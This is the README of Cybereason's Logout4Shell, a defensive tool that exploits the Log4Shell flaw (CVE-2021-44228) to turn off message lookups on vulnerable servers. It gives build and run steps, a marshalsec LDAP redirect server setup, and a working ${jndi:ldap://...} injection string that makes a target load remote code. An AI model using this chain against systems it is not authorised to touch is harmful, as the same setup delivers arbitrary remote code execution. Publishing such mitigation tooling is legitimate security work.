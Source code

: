 # Logout4Shell
![logo](https://github.com/Cybereason/Logout4Shell/raw/main/assets/CR_logo.png)

## Description 
A vulnerability impacting Apache Log4j versions 2.0 through 2.14.1 was disclosed on the project’s Github on December 9, 2021. The flaw has been dubbed “Log4Shell,”, and has the highest possible severity rating of 10. Software made or managed by the Apache Software Foundation (From here on just "Apache") is pervasive and comprises nearly a third of all web servers in the world—making this a potentially catastrophic flaw.
The Log4Shell vulnerability CVE-2021-44228 was published on 12/9/2021 and allows remote code execution on vulnerabe servers.

While the best mitigation against this vulnerability is to patch log4j to
2.15.0 and above, in Log4j version (>=2.10) this behavior can be mitigated by
setting system property `log4j2.formatMsgNoLookups` to `true` or by removing
the JndiLookup class from the classpath. 
Additionally, if the server has Java runtimes >= 8u121, then by default, the
settings `com.sun.jndi.rmi.object.trustURLCodebase` and
`com.sun.jndi.cosnaming.object.trustURLCodebase` are set to “false”, mitigating this risk.

However, enabling these system property requires access to the vulnerable servers as well as a restart. 
The [Cybereason](https://www.cybereason.com) research team has developed the
following code that _exploits_ the same vulnerability and the payload therein
forces the logger to reconfigure itself with the vulnerable setting disabled -
this effectively blocks any further attempt to exploit Log4Shell on this server

You can learn more [here](https://www.cybereason.com/blog/cybereason-releases-vaccine-to-prevent-exploitation-of-apache-log4shell-vulnerability-cve-2021-44228)

## How it works
The payload and exploit below use the java runtime to reconfigure the logger. 
Prior to reconfiguring the global setting
`FORMAT_MESSAGES_PATTERN_DISABLE_LOOKUPS` is set to True, disabling message
format lookups and preventing further exploitation of this attack

## How to use

1. Download this report and build it 

   1.1 `git clone https://github.com/cybereason/Logout4Shell.git`

   1.2 build it - `mvn package`

   1.3 `cd target/class`

   1.4 run the webserver - `python3 -m http.server 8888`

2. Download, build and run Marshalsec's ldap server

   2.1 `git clone https://github.com/mbechler/marshalsec.git`

   2.2 `mvn package -DskipTests`

   2.3 `java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://<IP_OF_PYTHON_SERVER_FROM_STEP_1>:8888/#Log4jRCE"`

3. To immunize a server

   3.1 enter `${jndi:ldap://<IP_OF_LDAP_SERVER_FROM_STEP_2>:1389/a}` into a vulnerable field (such as user name)


## DISCLAIMER: 
The code described in this advisory (the “Code”) is provided on an “as is” and
“as available” basis may contain bugs, errors and other defects. You are
advised to safeguard important data and to use caution. By using this Code, you
agree that Cybereason shall have no liability to you for any claims in
connection with the Code. Cybereason disclaims any liability for any direct,
indirect, incidental, punitive, exemplary, special or consequential damages,
even if Cybereason or its related parties are advised of the possibility of
such damages. Cybereason undertakes no duty to update the Code or this
advisory.


## Credits
The initial repo and inspiration for this work is based on the work of [tangxiaofeng7/apache-log4j-poc](https://github.com/tangxiaofeng7/apache-log4j-poc)
